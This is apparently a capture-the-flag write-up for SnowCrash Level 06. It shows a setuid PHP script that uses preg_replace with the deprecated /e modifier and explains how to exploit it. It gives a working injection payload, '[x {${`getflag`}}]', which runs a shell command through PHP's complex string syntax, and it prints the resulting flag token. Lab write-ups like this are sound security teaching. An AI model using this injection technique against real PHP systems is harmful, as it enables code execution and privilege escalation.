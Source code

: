 # Level 06

## Vulnerability
Privilege escalation - PHP code injection

Deprecated /e regex modifier in script owned by privileged user

## Context
```
level06@SnowCrash:~$ ls -l
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

## Solution
The binary ```level06``` is executed as user flag06, thanks to the suid bit. We should be able to exploit this, and have it run getflag for us. Lets look at the .php file and investigate how.
```
level06@SnowCrash:~$ cat level06.php
#!/usr/bin/php
<?php
function y($m) {
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
    }
function x($y, $z) {
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a;
    }
$r = x($argv[1], $argv[2]);
print $r;
?>
```
We find preg_replace() used with the /e modifier. The [official doc](https://www.php.net/manual/en/reference.pcre.pattern.modifiers.php) tells us this modifier is depecrated because it introduces a vulnerability:
> If this deprecated modifier is set, preg_replace() does normal substitution of backreferences in the replacement string, evaluates it as PHP code, and uses the result for replacing the search string.

> Caution: Use of this modifier is discouraged, as it introduces remote code execution vulnerabilities. An attacker can execute arbitrary PHP code and gain access to the server.

The script prints the content of given variable "x". Using ``` `getflag` ``` as the variable name, we can print the return value of getflag.

So lets create a file whose content matches the regexp test ```"/(\[x (.*)\])/e"```, and inject ``` `getflag` ``` in correct [php syntax](https://www.php.net/manual/en/language.types.string.php#language.types.string.syntax.nowdoc).
```
level06@SnowCrash:~$ echo '[x {${`getflag`}}]' > /tmp/getflag
level06@SnowCrash:~$ ./level06 /tmp/getflag
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
```
